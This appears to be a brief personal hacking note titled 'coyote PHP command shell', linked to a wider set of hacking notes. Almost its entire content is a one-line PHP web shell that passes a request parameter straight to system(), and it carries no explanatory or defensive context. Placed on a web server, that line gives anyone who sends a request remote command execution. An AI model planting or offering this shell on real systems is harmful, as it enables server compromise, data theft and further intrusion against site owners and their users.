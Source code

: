 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


` zet/20221003150558/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node


Tags:

    
